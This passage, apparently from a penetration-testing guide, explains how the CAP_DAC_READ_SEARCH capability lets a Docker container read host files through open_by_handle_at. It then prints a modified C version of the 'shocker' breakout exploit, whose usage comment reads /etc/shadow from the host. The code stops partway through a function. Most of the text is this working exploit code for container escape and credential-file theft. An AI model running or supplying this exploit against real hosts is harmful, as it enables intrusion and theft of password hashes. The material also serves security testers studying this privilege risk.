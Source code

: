 Inside the previous output you can see that the **DAC\_READ\_SEARCH** capability is enabled. As a result, the container can **debug processes**.

You can learn how the following exploiting works in [https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3](https://medium.com/@fun\_cuddles/docker-breakout-exploit-analysis-a274fff0e6b3) but in resume **CAP\_DAC\_READ\_SEARCH** not only allows us to traverse the file system without permission checks, but also explicitly removes any checks to _**open\_by\_handle\_at(2)**_ and **could allow our process to sensitive files opened by other processes**.

The original exploit that abuse this permissions to read files from the host can be found here: [http://stealth.openwall.net/xSports/shocker.c](http://stealth.openwall.net/xSports/shocker.c), the following is a **modified version that allows you to indicate the file you want to read as first argument and dump it in a file.**

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <errno.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <dirent.h>
#include <stdint.h>

// gcc shocker.c -o shocker
// ./socker /etc/shadow shadow #Read /etc/shadow from host and save result in shadow file in current dir

struct my_file_handle {
  unsigned int handle_bytes;
  int handle_type;
  unsigned char f_handle[8];
};

void die(const char * msg) {
  perror(msg);
  exit(errno);
}

void dump_handle(const struct my_file_handle * h) {
  fprintf(stderr, "[*] #=%d, %d, char nh[] = {", h -> handle_bytes,
    h -> handle_type);
  for (int i = 0; i < h -> handle_bytes; ++i) {
    fprintf(stderr, "0x%02x", h -> f_handle[i]);
    if ((i + 1) % 20 == 0)
      fprintf(stderr, "\n");
    if (i < h -> handle_bytes - 1)
      fprintf(stderr, ", ");
  }
  fprintf(stderr, "};\n");
}

int find_handle(int bfd,
  const char * path,
    const struct my_file_handle * ih, struct my_file_handle *
      oh) {
  int fd;
  uint32_t ino = 0;
  struct my_file_handle outh = {
    .handle_bytes = 8,
    .handle_type = 1
  };
  DIR * dir = NULL;
```